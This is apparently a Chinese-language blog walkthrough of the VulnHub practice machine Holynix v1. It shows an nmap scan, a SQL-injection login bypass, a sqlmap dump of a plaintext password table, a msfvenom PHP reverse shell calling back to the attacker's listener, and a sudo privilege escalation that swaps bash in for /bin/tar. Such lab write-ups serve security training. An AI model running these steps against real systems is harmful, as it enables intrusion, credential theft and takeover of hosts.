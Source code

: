 ```yaml
---
title: 'VulnHub_04_Holynix: v1'
date: 2022-03-28
tags: VulnHub
categories: Technology
---
```


download：[vulnhub](https://www.vulnhub.com/entry/holynix-v1,20/)

nmap扫一下：`192.168.188.138`

```
Nmap scan report for 192.168.188.138
Host is up (0.0015s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
MAC Address: 00:0C:29:BC:05:DE (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.24 - 2.6.25
Network Distance: 1 hop
```

万能密码：`1' or 1=1#`登陆，

upload的时候应该是说这个用户没权限。

nikto看一下：

![image-20220328170449034](VulnHub04/image-20220328170449034.png)

本地文件包含，在email那里，post直接发：

![image-20220328170704211](VulnHub04/image-20220328170704211.png)

`sqlmap -u http://192.168.188.138/index.php?page=login.php --forms --data="username=gmckinnon" -dbs`

```
available databases [4]:
[*] clients
[*] creds
[*] information_schema
[*] mysql
```

tables:

```
[5 tables]
+-------------+
| accounts    |
| blogs_table |
| calender    |
| employee    |
| page        |
+-------------+
```

dump:

```
Database: creds
Table: accounts
[11 entries]
+-----+--------+--------------------+------------+
| cid | upload | password           | username   |
+-----+--------+--------------------+------------+
| 1   | 0      | Ih@cK3dM1cR05oF7   | alamo      |
| 2   | 1      | P3n7@g0n0wN3d      | etenenbaum |
| 3   | 1      | d15cL0suR3Pr0J3c7  | gmckinnon  |
| 4   | 1      | Ik1Ll3dNiN@r315er  | hreiser    |
| 5   | 1      | p1@yIngW17hPh0n35  | jdraper    |
| 6   | 1      | @rR35t3D@716       | jjames     |
| 7   | 1      | m@k1nGb0o7L3g5     | jljohansen |
| 8   | 1      | wH@7ar37H3Fed5D01n | kpoulsen   |
| 9   | 0      | f@7H3r0FL1nUX      | ltorvalds  |
| 10  | 1      | n@5aHaSw0rM5       | mrbutler   |
| 11  | 1      | Myd@d51N7h3NSA     | rtmorris   |
+-----+--------+--------------------+------------+
```

msfvenom生成反弹shell


```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.188.129 lport=4444 -f raw
```

tar写为压缩文件然后上传，msf开监听：

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.188.129
msf exploit(handler) > set lport 4444
msf exploit(handler) > run
```

进去之后不是root，接下来提权：

sudo -l看一下有那些命令可以root执行，然后将bash使用chown写为所有组为root，再放到xxx里面，提权成功。


```sh
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ sudo -l
sudo -l
User www-data may run the following commands on this host:
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /bin/chgrp
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /bin/mv
$ cp /bin/bash /tmp
cp /bin/bash /tmp
$ ls -l /tmp
ls -l /tmp
total 692
-rwxr-xr-x 1 www-data www-data 702160 Nov 18 10:59 bash
$ sudo chown root:root /tmp/bash
sudo chown root:root /tmp/bash
$ sudo mv /tmp/bash /bin/tar
sudo mv /tmp/bash /bin/tar
$ sudo /bin/tar
sudo /bin/tar
root@holynix:/home/etenenbaum# id
id
uid=0(root) gid=0(root) groups=0(root)
root@holynix:/home/etenenbaum# 
```

